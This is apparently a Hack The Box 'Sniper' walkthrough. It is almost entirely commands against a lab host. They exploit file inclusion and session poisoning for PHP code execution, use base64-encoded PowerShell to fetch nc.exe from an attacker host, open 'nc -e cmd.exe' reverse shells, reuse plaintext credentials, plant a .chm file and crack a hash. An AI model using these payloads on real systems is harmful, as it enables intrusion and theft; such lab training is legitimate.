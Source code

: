 ```
http://10.10.10.151/user/login.php
http://10.10.10.151/user/login.php
http://10.10.10.151/blog/?lang=blog-en.php
http://10.10.10.151/blog/?lang=/windows/win.ini
curl -X GET http://10.10.10.151/blog/?lang=/windows/win.ini
register: sahrul / sahrul
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
<?=`powershell whoami`?> / pass123
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
echo "wget http://10.10.14.2/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64
<?=`powershell /enc dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAG4AYwAuAGUAeABlACAALQBvACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQARQBNAFAACgBjAC4AZQB4AGUACgA=`?>
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
echo "C:\Windows\TEMP\nc.exe -e cmd.exe 10.10.14.2 4444" | iconv -t UTF-16LE | base64
<?=`powershell /enc QwA6AFwAVwBpAG4AZABvAHcAcwBcAFQARQBNAFAACgBjAC4AZQB4AGUAIAAtAGUAIABjAG0AZAAuAGUAeABlACAAMQAwAC4AMQAwAC4AMQA0AC4AMgAgADQANAA0ADQACgA=`?>
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
more C:\inetpub\wwwroot\user\db.php
$password = convertto-securestring -AsPlainText -Force -String
"36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget
http://10.10.14.23/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 4444} -credential $credential;
wget http://10.10.14.23/instructions.chm -o C:\Users\chris\instructions.chm
hashcat -m 5600 --force hash.txt rockyou.txt
$password = convertto-securestring -AsPlainText -Force -String "butterfly!#1";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\Administrator",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 5555} -credential $credential;
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.151
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d10ea320-e050-459d-acae-bdd53145239f)


```
dirsearch -u http://10.10.10.151
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f71e06f1-a92b-45f0-9569-36abf5b4fc20)


```
http://10.10.10.151/user/login.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3108370e-7d17-4044-bc53-b155a24715db)


```
http://10.10.10.151/blog/?lang=blog-en.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1938379a-5aba-4cfc-9a85-664c411c7961)


```
http://10.10.10.151/blog/?lang=/windows/win.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/99bed695-53ec-42df-8947-447c03df21ef)

![image](https://github.com/regarmulia/HTB/assets/33616880/be0201a7-e2fa-4074-855b-ee4940d22ddc)


```
curl -X GET http://10.10.10.151/blog/?lang=/windows/win.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c1f65f6b-d039-409d-bf41-6a184857e0b1)

![image](https://github.com/regarmulia/HTB/assets/33616880/8f1d5518-7621-4482-820f-7ec6398a654c)


```
register: sahrul / sahrul
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8bc2d8e8-ab6b-4326-94b7-ce39e1bde815)

![image](https://github.com/regarmulia/HTB/assets/33616880/ff3420ae-e34e-429b-b476-d220a6ed407c)


```
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0ff25a5e-e668-4a61-b1a3-7fdc8c35758d)


```
<?=`powershell whoami`?> / pass123
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/37fbe64e-402f-468f-bf77-430b8032a3dc)


```
echo "wget http://10.10.14.2/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64
<?=`powershell /enc dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAG4AYwAuAGUAeABlACAALQBvACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQARQBNAFAACgBjAC4AZQB4AGUACgA=`?>
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ffc7a306-0748-48d2-80d8-3d3eaa0a336a)

![image](https://github.com/regarmulia/HTB/assets/33616880/eaa0c1cc-0bde-4075-8887-61603ff1ee7b)


```
echo "C:\Windows\TEMP\nc.exe -e cmd.exe 10.10.14.2 4444" | iconv -t UTF-16LE | base64
<?=`powershell /enc QwA6AFwAVwBpAG4AZABvAHcAcwBcAFQARQBNAFAACgBjAC4AZQB4AGUAIAAtAGUAIABjAG0AZAAuAGUAeABlACAAMQAwAC4AMQAwAC4AMQA0AC4AMgAgADQANAA0ADQACgA=`?>
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/122a5a22-49fd-41a7-898d-2ba9e806c273)


```
more C:\inetpub\wwwroot\user\db.php
$password = convertto-securestring -AsPlainText -Force -String
"36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget
http://10.10.14.23/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 4444} -credential $credential;
```


```
wget http://10.10.14.23/instructions.chm -o C:\Users\chris\instructions.chm
hashcat -m 5600 --force hash.txt rockyou.txt
$password = convertto-securestring -AsPlainText -Force -String "butterfly!#1";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\Administrator",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 5555} -credential $credential;
```

